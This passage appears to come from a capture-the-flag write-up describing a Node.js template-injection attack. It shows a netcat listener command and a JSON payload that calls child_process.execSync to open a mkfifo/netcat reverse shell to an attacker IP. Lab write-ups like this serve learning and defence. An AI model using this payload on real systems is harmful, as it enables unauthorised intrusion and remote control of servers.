 ![BurpSstiCodeExecution.png](assets/nunchucks_screenshots/BurpSstiCodeExecution.png)

Start a netcat listener

```bash
nc -lvnp 9001
```

Now we have code execution we'll try for a reverse shell.
Trying the usual suspects for reverse shell one liners, we eventualy land on the netcat temp file reverse shell.

{% raw %}

```json
{
    "email":"{{range.constructor(\"returnglobal.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 9001 >/tmp/f')\")()}}"
}
```

{% endraw %}
